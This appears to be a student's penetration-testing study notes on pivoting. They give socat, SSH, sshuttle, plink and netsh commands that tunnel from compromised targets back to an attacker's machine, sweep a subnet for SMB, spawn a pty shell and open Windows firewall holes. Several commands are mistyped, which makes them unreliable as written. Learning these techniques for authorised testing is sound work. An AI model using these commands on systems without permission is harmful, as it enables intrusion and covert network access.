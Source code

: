 ## Section 2 Port Forwarding With Linux Tools 
### 18.2.3 Port Forwarding With Socat
- Example of a socat tunnel
```
socat -ddd TCP-LISTEN:2345;fork TCP:<TARGETIP>:5432(INTERNAL INFO)
```

## Section 3 SSH Tunneling
### 18.3.1 SSH Local Port Forwarding
- Upgrade a shell if it has python with 
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
- The following is a bash for loop to sweep for hosts with an open port 445 on a /24 subnet
```
for i in $(seq 1 254); do nc -zv -w 1 IP.$i 445; done
```
- SSH local port forward is executed on the target machine 
	- The first address is the listening socket that will be bound to the ssh client machine 
	- The second is where we want to forward the packets to
	- Example on the WAN device run
```
ssh -N -L 0.0.0.0:4455:<TARGET_IP>:445
```
- sshuttle forwarding 
```
sshttle pi@pi_ip TARGET_IP/24 
```
### 18.3.2 Dynamic Port Forwarding
- Dynamic port forward with 
```
ssh -N -D 0.0.0.0:9999 <TARGET_USER>@<TARGET_IP>
```
- THEN 
	- edit proxychains.conf 
	- THEN
		- run proxychains before your command
- On the pi run 
```
ssh -D 127.0.0.1:9052 pi@pi_ip
```
- Then
```
ssh -R 127.0.0.1:9051:127.0.0.1:9052 kali_username@kali_ip
```
- Run your commands on the target with proxychains prefix
### 18.3.3 Remote Port Forwarding
- ssh remote port forward option is -R and takes two arguments 
	- First is the listening socket then the forwarding socket
	- Example 
	- On target machine
```
ssh -N -R 127.0.0.1:2345:<TARGET_IP>:<TARGET_PORT> kali@<MY_IP>
```
- THEN example of a command after this is established with pgsql
```
psql -h 127.0.0.1 -p 2345 -U postgres
```
### 18.3.4 Remote Dynamic Port Forwarding
- In remote dynamic port forwarding you only pass one argument whic is the socket you want to listen to on the ssh server 
- Example 
```
ssh -N -R 9998 kali@<MY_IP>
```
- Example command from my machine 
```
proxychains nmap -vvv -sT --top-ports=20 -Pn -n <TARGET_IP>
```
### 18.3.5 Using sshuttle
- sshuttle requires root privileges and python3 on the server 
	- This essentially creates a vpn 
	- You use it by specifying the ssh connection you want to use as well as the subnets you want to tunnel through the connection like 
- On the target machine 
```
socat TCP-LISTEN:2222,fork TCP:<TARGET_IP>:<TARGET_PORT>
```
- On my machine
```
sshuttle -r <TARGET_USER?@<TARGET_IP>:<PORT> <TARGET_IP/CIDR (10.0.50.0/240) <OTHER_TARGET_IP/CIDR>
```
- Example command on my computer after this 
```
smbclient -L //<TARGET_IP>/ -U <USER_NAME> --password=<PASSWORD>
```
## Section 4 Port Forwarding with Windows Tools 
### 16.4.1 ssh.exe 
- xfreerdp one liner 
```
xfreerdp /u:<USER_NAME> /p:<PASSWORD> /v:<TARGET_IP>
```
- plink.exe is a cli putty but does not have remote dynamic port forwarding 
- plink one liner for rdp access
```
C:\Windows\Temp\plink,exe -ssh -l kali -pw kali -R 127.0.0.1:9833:127.0.0.1:3389 <TARGET_IP>
```
- On my machine run 
```
xfreerdp /u:<USER_NAME> /p:<PASSWORD> /v:127.0.0.1:9833
```
### 18.4.3 Netsh
- netsh one-liner for ssh tunneling
```
netsh interface portproxy ad v4tov4 listemport=2222 listenaddress=<COMPUTER_IP> connectport=<TARGET_PORT> connectaddress=TARGET_IP>
```
- Example command from my computer 
```
sudo nmap -sS <COMPUTER_IP> -Pn -n -p2222
```
- To poke a hole in the firewall to allow a connection with netsh the one-liner on the target machine is 
```
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=<COMPUTER_IP> localport=2222 action=allow
```
- Delete the firewall rule with the following command 
```
netsh advfirewall delete rule name="port_forward_ssh_2222"
```
- Delete port proxy with netsh that was created with the following one-liner
```
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=<COMPUTER_IP>
```
## Exercises To-Do

- [ ] 2.1.1 (page 20)
